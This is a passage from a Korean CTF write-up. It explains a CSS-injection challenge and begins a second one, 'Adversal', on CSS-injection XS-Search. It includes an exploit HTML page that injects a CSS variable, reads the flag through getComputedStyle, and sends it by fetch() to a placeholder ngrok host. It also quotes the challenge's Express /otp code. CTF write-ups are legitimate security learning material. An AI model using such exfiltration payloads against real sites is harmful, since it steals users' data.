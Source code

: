 `getComputedStyle()`를 이용해서 전달받은 요소의 css속성값을 담은 객체를 가져올 수 있고 `getPropertyValue()`로 해당 속성의 값을 얻어올 수 있습니다. 그리고 이 값이 곧 플레그이니 이것을 `ngrok`이나 `requestbin`을 이용하여 넘거줍니다. 공격자가 구성해야할 페이지는 다음과 같습니다.  
```html
<html>
<head>
    <link rel="stylesheet" type="text/css" href="http://0:1337/css?prefix=p{--test:" />
</head>
<body>
<p id="hoppi">hi</p>
<script>
    setTimeout(()=>{
        let flag = getComputedStyle(hoppi).getPropertyValue('--test')
        fetch('https://xxxxxxxxxxxx.jp.ngrok.io/?flag='+flag)
    }, 200)
</script>
</body>
</html>
```
{: file="exploit.html"}
<br/>

조금 신기한 것은 태그 css속성을 정의할 때, `{`로 열어주기만 하고 닫지않았는데 플레그가 온전히 보이는 것을 보면 자동적으로 닫아주는가 봅니다.  
![hidden](../../../assets/img/2023-03-20/hidden.png){: w="700" h="350" }  
<br/>

궁금해서 `http://0:1337/css?prefix=p{content:'`처럼 기존의 `content` 속성을 이용하여 해봤는데 양쪽에 `'`(%22)가 붙는 걸 보면 자동적으로 닫아주게 맞는가 봅니다.  
![content](../../../assets/img/2023-03-20/content.png){: w="700" h="350" }  
<br/>



## Adversal (498pt)
***
이 문제는 `CSS injection`을 이용한 `XS-Search` 문제였습니다. 먼저 아래와 같이 `/otp` 엔드포인트에서 사용자가 `html` 요소를 작성할 수 있습니다. `CSP`가 걸려있고, `otp`는 12글자의 랜덤한 숫자와 영문 조합입니다.  
```javascript
// index.js: 26
...

app.get('/otp', (req, res) => {
    let defaultAd = `
        <img src="imgs/logo.png" /> <br/>
        <link rel="stylesheet" href="style/style.css" />
        <h3>Get your <a href="https://wolvsec.org/" target="_blank">WolvSec</a> merch!</h3>
    `
    let ad = req.query.ad || defaultAd; 

    // Imagine that the OTP gets used somewhere important
    //  (you will need to exfiltrate it from the admin bot to get the flag)
    let otp = randomstring.generate({length: 12, charset: 'alphanumeric'});

    res.set("Content-Security-Policy", "script-src 'none'; object-src 'none'; connect-src 'self';");

    res.render('otp', {
        otp: otp,
        ad: ad
    });
});

...

```